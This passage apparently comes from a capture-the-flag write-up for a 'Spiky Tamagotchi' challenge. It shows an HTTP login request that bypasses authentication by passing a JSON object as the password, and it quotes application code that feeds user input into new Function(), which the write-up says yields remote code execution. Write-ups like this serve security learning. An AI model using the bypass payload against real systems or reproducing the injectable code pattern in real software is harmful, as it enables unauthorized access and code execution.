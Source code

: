 It is possible to pass a value that gets evaluated as an Object instead of a String value, and results in the following SQL query:

```http
POST /api/login HTTP/1.1
Host: 192.168.1.199:1337
Content-Length: 46
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://192.168.1.199:1337
Referer: http://192.168.1.199:1337/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"username":"admin","password":{"password":1}}
```

`SELECT username  FROM users WHERE username = 'admin' AND password = `password` = 1`

![Untitled](../../zzz_res/attachments/Spiky%20Tamagotchi%2065add0ecf061497a926471dfb120eb33%202.png)

## JavaScript code injection

User controllable data is inserted within `res` which is then passed to the `new Function()` and finally called, resulting in remote code execution:

```jsx
...
try {
            // devine formula :100:
            let res = `with(a='${activity}', hp=${health}, w=${weight}, hs=${happiness}) {
                if (a == 'feed') { hp += 1; w += 5; hs += 3; } if (a == 'play') { w -= 5; hp += 2; hs += 3; } if (a == 'sleep') { hp += 2; w += 3; hs += 3; } if ((a == 'feed' || a == 'sleep' ) && w > 70) { hp -= 10; hs -= 10; } else if ((a == 'feed' || a == 'sleep' ) && w < 40) { hp += 10; hs += 5; } else if (a == 'play' && w < 40) { hp -= 10; hs -= 10; } else if ( hs > 70 && (hp < 40 || w < 30)) { hs -= 10; }  if ( hs > 70 ) { m = 'kissy' } else if ( hs < 40 ) { m = 'cry' } else { m = 'awkward'; } if ( hs > 100) { hs = 100; } if ( hs < 5) { hs = 5; } if ( hp < 5) { hp = 5; } if ( hp > 100) { hp = 100; }  if (w < 10) { w = 10 } return {m, hp, w, hs}
                }`;
            quickMaths = new Function(res);
            const {m, hp, w, hs} = quickMaths();
...
```

